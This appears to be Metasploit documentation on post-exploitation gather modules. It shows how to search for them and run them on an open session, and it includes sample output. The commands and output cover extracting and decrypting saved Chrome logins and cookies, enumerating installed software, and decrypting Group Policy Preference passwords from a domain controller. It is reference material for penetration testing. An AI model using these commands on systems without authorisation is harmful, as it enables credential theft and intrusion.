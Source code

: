 ## Post Modules

Metasploit's post modules are useful after a Metasploit session has opened. This guide focuses on Post modules for gathering additional information from a host after a Metasploit session has opened.

Metasploit post modules replace old Meterpreter scripts, which are no longer maintained or accepted by the framework team.

You can search for post gather modules within msfconsole:

```
msf6 > search type:post platform:windows name:gather

Matching Modules
================

   #    Name                                                       Disclosure Date  Rank       Check  Description
   -    ----                                                       ---------------  ----       -----  -----------
   0    post/windows/gather/ad_to_sqlite                                            normal     No     AD Computer, Group and Recursive User Membership to Local SQLite DB
   1    post/windows/gather/credentials/aim                                         normal     No     Aim credential gatherer
   ... etc ..
```

### Usage

There are two ways to launch a Post module, both require an existing session.

Within a msf prompt you can use the `use` comand followed by the `run` command to execute the module against the required session. For instance to extract credentials from Chrome on the most recently opened Metasploit session:

```
msf6 > use post/windows/gather/enum_chrome
msf6 post(windows/gather/enum_chrome) > run session=-1 verbose=true

[*] Impersonating token: 7192
[*] Running as user 'DESKTOP-N3MAG5R\basic_user'...
[*] Extracting data for user 'basic_user'...
[+] Downloaded Web Data to '/Users/user/.msf4/loot/20220422122125_default_192.168.123.151_chrome.raw.WebD_560928.txt'
[-] Cookies not found
[+] Downloaded History to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Histo_861946.txt'
[+] Downloaded Login Data to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Login_785667.txt'
[+] Downloaded Bookmarks to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Bookm_612993.txt'
[+] Downloaded Preferences to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Prefe_893631.txt'
[*] Found password encrypted with masterkey
[+] Found masterkey!
[+] Decrypted data: url:http://192.168.123.6/ helloworld:157746edfe6b4d369d7e656c00eeb5c8
[+] Decrypted data: url:https://www.example.com/ my_username:my_password_123
[+] Decrypted data saved in: /Users/user/.msf4/loot/20220422122129_default_192.168.123.151_chrome.decrypted_981698.txt
[*] Post module execution completed
msf6 post(windows/gather/enum_chrome) >
```

Or within a Meterpreter prompt use the `run` command, which will automatically set the module's session value:

```
msf6 > sessions --interact -1
[*] Starting interaction with 5...

meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on DESKTOP-N3MAG5R

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 7-Zip 21.07 (x64)                                                   21.07
 Application Verifier x64 External Package                           10.1.19041.685
 ClickOnce Bootstrapper Package for Microsoft .NET Framework         4.8.04162
 DiagnosticsHub_CollectionService                                    16.1.28901
 Docker Desktop                                                      2.2.0.4
 ... etc ..
```

## Useful modules

### Windows GPP Credentials

This module enumerates the victim machine's domain controller and connects to it via SMB. It then looks for Group Policy Preference XML files containing local user accounts and passwords and decrypts them using Microsoft's public AES key. Cached Group Policy files may be found on end-user devices if the group policy object is deleted rather than unlinked

```
use post/windows/gather/credentials/gpp
run session=-1
```
